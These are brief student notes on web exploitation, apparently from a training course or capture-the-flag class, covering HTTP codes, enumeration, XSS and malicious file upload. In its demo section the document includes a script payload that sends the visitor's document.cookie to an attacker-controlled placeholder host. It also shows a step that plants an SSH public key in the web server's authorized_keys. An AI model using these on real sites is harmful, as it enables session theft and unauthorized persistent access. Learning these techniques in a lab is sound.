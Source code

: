 # Web Exploitation


# HTTP Response Codes

- 10X = Informational

- 2XX = Success

- 30X = Redirection

- 4XX = Client Error

- 5XX = Server Error
# Enumeration

- Robots.txt: list off different directorys contained in web server
# Cross-Site Scripting (XSS) Overview
- Allows us to arbitaurily place code on a webpage


# Reflected XSS

- Deliver something to server and someone clicks it similiar to phishing through a email

- You put the vulnerability on the server and someone else interacts with it
# Stored XSS

- Already on server and know how to exploit

- The server already has the vulnerability and you interact with it

- example with scripts
  - <script>alert('XSS');</script> = tells us if a site is vulnerble to XSS

  - <img src="http://invalid" onerror="window.open('http://10.50.28.71/java/fruit-7.jpg','xss','height=1,width=1');">(check code)

# Malicious File Upload

- Site alows unsanitized file uploads

- Does not check extension, Allows for code execution
# Demo 

- Script
  - Script http-enum.nse (run when a http port is open {80})

- python3 -m http.server

- <script>document.location="http://<LinopIP>:8000/"+document.cookie;</script>

- ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/9aktlN9GzIIUWJGEVAClDU5v7AM4M8MbT5ETYTjlnG8Lte+2V11I5dnksfLZcNcYhUF7ai0eD4/xtn3lm8QOK+6nLd1mCoh9OKnB7U9ulN4YQdSPkTYBoACMHGeu4rp73W5u1yBDK8fdLsX5f7ZumcRvqGYGDDHF9SdShDWCVRo9rt7hicLo/MyYCRDnM+VTUtvCtQm4VfyAnlSyoDlPy26WTR9cADKOblJ2OFmD/VbsKZaRZAghoqNJjLGPL1dbXNTVVgJwo3cExkDrnOopUmUPqFPmnU2cNMEtF/Wp+donsEFhxfnSI0jl7pD8tiO4j2vKnrCoEJ0nDOnreZVV student@lin-ops

- ssh "public Key" >> var/www/ .ssh/authroized_keys
# CTF

- --script nmap http

- /robots.txt

  - dissallow /net_test

- /css

- /images

- uploads

  

